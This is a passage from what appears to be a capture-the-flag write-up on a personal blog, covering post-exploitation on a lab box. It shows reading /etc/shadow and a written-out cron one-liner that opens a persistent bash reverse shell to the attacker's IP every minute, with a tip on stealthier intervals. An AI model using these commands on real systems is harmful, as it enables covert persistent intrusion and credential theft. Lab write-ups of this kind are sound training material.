     -   `sudo passwd nginx`
        -   Sets or updates the password for the `nginx` user.
        -   Prompts us to add a new password and confirms it.
        -   {{< figure src="/ox-hugo/2024-12-27-133018_.png" >}}

-   I switch to the newly created user
    -   {{< figure src="/ox-hugo/2024-12-27-133056_.png" >}}

-   I check I have sudo privileges, as expected I do.
    -   {{< figure src="/ox-hugo/2024-12-27-133113_.png" >}}

-   I ensure I can actually read sudo level files by reading `/etc/shadow`
    -   {{< figure src="/ox-hugo/2024-12-27-133145_.png" >}}


### Creating a cron job reverse shell: {#creating-a-cron-job-reverse-shell}

```shell
(crontab -l > .tab ; echo "* * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.18/443 0>&1'" >> .tab ; crontab .tab ; rm .tab) > /dev/null 2>&1
```

-   {{< figure src="/ox-hugo/2024-12-27-132407_.png" >}}

-   Let's verify it's in the crontab by running `crontab -l`
    -   {{< figure src="/ox-hugo/2024-12-27-132424_.png" >}}
    -   As I can see it's running.

-   I start my listener and get a connection back after 1 minute.
    -   {{< figure src="/ox-hugo/2024-12-27-132448_.png" >}}

-   +Note+: This is great as a means to call back out to our attack machine, however an interval of every 1 minute is excessive, it would typically be better to set it at longer intervals to re-connect.


## Lessons Learned: {#lessons-learned}


### What did I learn? {#what-did-i-learn}

1.  I actually learned about the systemctl CVE, I was not aware of that before.
2.  This box helped me cement more SSRF learning, I have been grinding some SSRF/Web boxes recently to get better at them.


### What silly mistakes did I make? {#what-silly-mistakes-did-i-make}

1.  Nothing of note this time, which is nice.


## Sign off: {#sign-off}

Remember, folks as always: with great poIr comes great pwnage. Use this knowledge wisely, and always stay on the right side of the law!

Until next time, hack the planet!

&#x2013; Bloodstiller

&#x2013; Get in touch bloodstiller at bloodstiller dot com



